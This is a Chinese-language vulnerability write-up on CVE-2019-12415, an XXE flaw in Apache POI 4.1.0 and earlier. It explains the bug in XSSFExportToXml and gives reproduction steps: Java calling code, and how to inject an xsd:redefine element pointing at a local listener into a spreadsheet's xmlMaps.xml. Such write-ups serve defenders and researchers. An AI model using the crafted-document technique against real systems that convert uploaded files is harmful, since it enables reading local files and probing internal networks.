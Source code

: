 （CVE-2019-12415）Apache POI \<= 4.1.0 XXE漏洞
==============================================

一、漏洞简介
------------

### 什么是POI

Apache
POI是Apache软件基金会的开放源码函式库，POI提供API给Java程序对Microsoft
Office格式档案读和写的功能。

### 关于CVE-2019-12415

这是最近的POI官方宣布出来的一个XXE漏洞，可以影响到4.1.0版本，官方已在十天前更新了4.1.1版本，最新版本修复了这个XXE漏洞。

在最高4.1.0的Apache
POI中，当使用工具XSSFExportToXml转换用户提供的Microsoft
Excel文档时，特制文档可允许攻击者通过XML外部实体（XXE）从本地文件系统或内部网络资源中读取文件。加工中。

根据官方介绍，防御是在使用 XSSFExportToXml类xlsx转xml时触发的。

diff了一下4.1.0和4.1.1
XSSFExportToXml类的原始代码，发现在isValid方法里多设置了一个功能。

问题就出在 XSSFExportToXml\#isValid 方法里，如果
XSSFExportToXml\#exportToXML方法的第三个参数为true逐步进入
isValid触发XXE。

![](./.resource/(CVE-2019-12415)ApachePOI<=4.1.0XXE漏洞/media/rId24.png)

二、漏洞影响
------------

Apache POI\<=4.1.0

三、复现过程
------------

    XSSFWorkbook wb = new XSSFWorkbook(new FileInputStream(new File("CustomXMLMappings.xlsx")));
    for (XSSFMap map : wb.getCustomXMLMappings()) {     XSSFExportToXml exporter = new XSSFExportToXml(map); // 使用 XSSFExportToXml 将 xlsx 转成 xml     exporter.exportToXML(System.out, true);//第一个参数是输出流无所谓，第二个参数要为 true}

然后下载这个xlsx文件。

    https://github.com/apache/poi/raw/f509d1deae86866ed531f10f2eba7db17e098473/test-data/spreadsheet/CustomXMLMappings.xlsx

把文件替换为" CustomXMLMappings.zip"并解压文件。

编辑 CustomXMLMappings/xl/xmlMaps.xml 文件。

在 [xsd:schema](xsd:schema) 标签里面加上一行代码。

    <xsd:redefine schemaLocation="http://127.0.0.1:8080/"/>

![](./.resource/(CVE-2019-12415)ApachePOI<=4.1.0XXE漏洞/media/rId28.png)

然后把xlsx释放出来的所有文件再用zip打包回去，改成
CustomXMLMappings.xlsx。

最后一步监听本地8080端口，运行POC。![](./.resource/(CVE-2019-12415)ApachePOI<=4.1.0XXE漏洞/media/rId29.png)

